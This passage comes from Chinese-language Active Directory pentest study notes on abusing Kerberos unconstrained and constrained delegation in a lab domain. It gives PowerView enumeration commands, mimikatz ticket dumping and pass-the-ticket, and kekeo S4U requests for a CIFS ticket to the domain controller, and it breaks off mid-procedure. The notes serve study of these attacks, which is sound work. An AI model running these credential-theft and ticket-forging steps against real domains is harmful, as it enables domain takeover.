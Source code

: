 > 用到老朋友PowerSploit了

导入 `PowerSploit\Recon\PowerView.ps1` ，因为就开了两台机器，我们修改一下走过过场

1. 查询域内非约束
   账户查询：命令 `Get-NetUser Unconstrained -Domain xxcom.local`
   ![](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/查询非约束.png)
   主机查询（就不重复贴图了）：`Get-NetComputer Unconstrained -Domain xxcom.local`

2. 查询域内约束
   查看用户：`Get-DomainUser -TrustedToAuth -Domain xxcom.local`

   查看主机：`Get-DomainComputer -TrustedToAuth -Domain xxcom.local`

##### 非约束委派的利用

> 刚开始看目录都失败了5555原来是忘记给他加到dns记录里面

用域控上的administrator去访问web

![](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/dir.png)

在web主机上起个猕猴桃 `sekurlsa::tickets /export` 找到那个TGT票据
![](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/mimikatz_tickets.png)

在猕猴桃中把这个票据导入即可，其实也是PTT攻击（想一下拿到 Administrator的TGT票据，那不就和拿了黄金票据的目的一样嘛）
指令为`kerberos::ptt xxxx.kirbi`
还有一个点刚学到的，`sekurlsa::tickets`是内存中所有的，而`kerberos::list` 是当前会话中的，所以sekurlsa需要提权至system下进行利用。非约束委派的那个图里画了，TGT是会被放在内存中的，所以用猕猴桃可以抓到

[*] 注：不过有一个人在下面回复了，TGT票据一段时间后消失了，这里有点好奇这个TGT在内存里的缓存时间是多久？

##### 约束委派的利用

> 用到了一个新的工具，kekeo

原理流程简易版：

1. 申请TGT
2. 利用TGT获取ST
3. 导入ST

一步步来，跟着摸一遍吧...首先用kekeo获取TGT

```
tgt::ask /user:web /domain:xxcom.local /password:1qaz@WSX
```

![](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/约束1.png)

利用TGT去申请两个ST。问题来了，为什么是两个。其中一个ST是验证自身的，另外一个ST就是 S4U2Proxy 扩展中申请的TGS票据

`tgs::s4u /tgt:xxxxx /user:administrator@xxcom.local /service:cifs/dc.xxcom.local`

![](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/约束2.png)

最后mimikatz导入
